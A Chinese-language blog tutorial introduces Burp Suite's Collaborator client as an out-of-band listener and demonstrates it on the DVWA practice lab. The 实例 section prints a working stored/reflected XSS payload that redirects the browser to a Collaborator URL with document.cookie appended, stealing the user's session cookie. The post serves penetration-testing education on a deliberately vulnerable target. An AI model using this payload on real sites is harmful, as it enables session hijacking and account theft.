







# Burpsuite的一个好玩的模块

## 前言

10月份的时候闲的无聊就在挖公益SRC，遇到了一个tomcat的站，然后在Freebuf找到了一个挖洞经验分享，他就用到了Burpsuite的这个模块。这里插个眼：https://www.freebuf.com/articles/web/247253.html

## 模块

首先打开burpsuite，点开左上角的Burp，看到我鼠标选到的Burp Collaborator client，这次分享的模块就是这个。




点开可以看到这样的一个界面



点击copy to clipboard复制到粘贴板得到：http://4y378itiod01ld6nfx93nq1rqiw8kx.burpcollaborator.net

访问看看会出现啥



出现了一串字符串，在看监听端有什么变化



可以看到监听到出现了一个HTTP的访问请求，那么肯定也能记录到一些参数请求，比如用户的cookie等。

## 实例

该测试主要利用DVWA靶场进行测试





可以看到我们的cookie

在输入框输入payload进行测试。

payload：

```
<script>location.href="http://4y378itiod01ld6nfx93nq1rqiw8kx.burpcollaborator.net?"+document.cookie</script>
```



可以看到这边接收到了XSS弹过来的请求，获取到了用户的COOKIE


## 后记

这边的实例只是给出一个简单的利用方法，不固定攻击方法，如果有师傅有好的建议或者更加奇妙的利用姿势，也可以分享分享，可以去博客园评论我https://www.cnblogs.com/XCCCCCC/